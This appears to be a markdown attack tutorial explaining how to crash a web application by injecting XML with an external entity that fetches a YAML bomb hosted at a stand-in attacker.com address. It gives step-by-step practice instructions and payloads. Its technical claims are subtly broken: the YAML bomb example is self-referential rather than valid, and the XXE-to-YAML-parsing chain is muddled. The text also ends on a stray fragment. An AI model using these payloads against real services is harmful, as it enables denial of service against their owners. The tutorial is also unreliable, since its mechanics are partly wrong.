

# YAML Attack

## Context

This article demonstrates how to exploit YAML parsing in web applications via XML External Entity (XXE) injections to trigger a denial of service using YAML bombs. Prior knowledge required includes an understanding of YAML structure and syntax, the operation of XML External Entities (XXE), and general denial of service (DoS) attack mechanisms.

## Theory

### YAML Bombs and Alias Expansion

A YAML bomb is a malicious payload crafted to exploit alias expansion, resulting in resource exhaustion. YAML supports anchors (`&`) and aliases (`*`), which allow references and recursive structures. The vulnerability here lies in unrestricted alias expansion, which can cause exponential growth in memory usage during parsing. In this attack scenario, an attacker injects a YAML bomb payload into a system, causing the parser to recursively expand aliases and consequently exhaust system resources.

### Infinite Recursion in YAML Parsing

Infinite recursion occurs when YAML aliases reference one another in a loop, causing the parser to hang or crash. This issue arises because many YAML parsers do not enforce limits on recursion or alias expansion by default. The weakness is prevalent when YAML’s flexible referencing is not controlled via input sanitization or by setting parser constraints.

### Attack Surface: XXE to YAML Parsing

In this attack sequence, an attacker crafts an XML document with an external entity that references a YAML bomb. The application's parser processes the YAML, leading to a denial of service. Here is the data flow broken down:

1. The XML input is submitted.
2. An XXE is resolved to fetch an external YAML bomb.
3. The application parses the YAML, expands the aliases, and eventually exhausts resources.

#### Flowchart



## Practice

### Injecting a YAML Bomb via XXE to Cause Denial of Service

- **Craft a Malicious YAML Bomb Payload**: First, create a YAML bomb using recursive aliases. This payload will initiate exponential growth during parsing. 

    Example:
    ```yaml
    &a ["YAML", *a, *a, *a, *a, *a, *a, *a, *a, *a, *a]
    ```

- **Host the YAML Bomb**: Ensure the YAML bomb is accessible to the target application by hosting it on a server.

- **Craft the XML Payload with XXE**: Create an XML document that includes an XXE to reference the hosted YAML bomb.

    Example:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://attacker.com/yaml_bomb.yaml">
    ]>
    <root>&xxe;</root>
    ```

- **Submit XML Payload**: Send the crafted XML to the vulnerable web application’s XML input endpoint.

- **Monitor Application**: Observe for heightened resource usage or application crashes, which indicate a successful denial of service.

### Outcome

The successful execution of this attack results in the target application becoming unresponsive or crashing due to excessive resource usage by the YAML parser.

- **Python SimpleHTTPServer**